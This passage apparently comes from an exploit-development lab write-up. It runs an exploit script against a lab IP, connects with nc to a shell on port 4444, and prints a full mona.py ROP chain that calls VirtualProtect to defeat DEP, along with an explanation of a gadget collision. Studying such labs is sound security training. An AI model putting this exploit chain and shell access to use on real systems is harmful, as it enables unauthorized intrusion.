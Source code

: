 3. **Step 3. Attack**. Now, we can modify the exploit program to reflect [exploit2.py](./SourceCode/exploit2.py) and verify that we can acquire a shell!
```
python exploit2.py 10.0.2.15
```
```
nc 10.0.2.15 4444
```


## Previous Error
This section covers a previous error encountered when using a ROP chain generated with `mona.py`. In this case there was a collision between gadgets leading to a corrupted call stack.

1. Using the [mona.py](https://github.com/corelan/mona) command, we generate a new ROP chain. This is necessary because gadgets located in modules with ASLR enabled are used.
   ```
   !mona rop -m *.dll -n
   ```
   Generated ROP chain:
   ```
   rop_gadgets = [
         #[---INFO:gadgets_to_set_esi:---]
            0x77aee14c,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
            0x75bedd86,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0x77c8c426,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_ebp:---]
            0x77cb90a1,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
            0x625011c7,  # & jmp esp [essfunc.dll]
            #[---INFO:gadgets_to_set_ebx:---]
            0x75bd985e,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0xa28001c1,  # put delta into eax (-> put 0x00000201 into ebx)
            0x77b54803,  # ADD EAX,5D800040 # RETN 0x1C [KERNELBASE.dll] ** REBASED ** ASLR
            0x76027d44,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            #[---INFO:gadgets_to_set_edx:---]
            0x77a9683b,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0xa0a7feb7,  # put delta into eax (-> put 0x00000040 into edx)
            0x75d1280f,  # ADD EAX,5F580189 # POP ESI # POP EBX # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
            0x41414141,  # Filler (compensate)
            0x41414141,  # Filler (compensate)
            0x41414141,  # Filler (compensate)
            0x75bb14f5,  # XCHG EAX,EDX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_ecx:---]
            0x77c8f383,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR
            0x766b8056,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_edi:---]
            0x76033f63,  # POP EDI # RETN [KERNEL32.DLL] ** REBASED ** ASLR
            0x75bbc645,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_eax:---]
            0x75bee202,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0x90909090,  # nop
            #[---INFO:pushad:---]
            0x779cba6c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      ]
      return b''.join(struct.pack('<I', _) for _ in rop_gadgets)
   ```
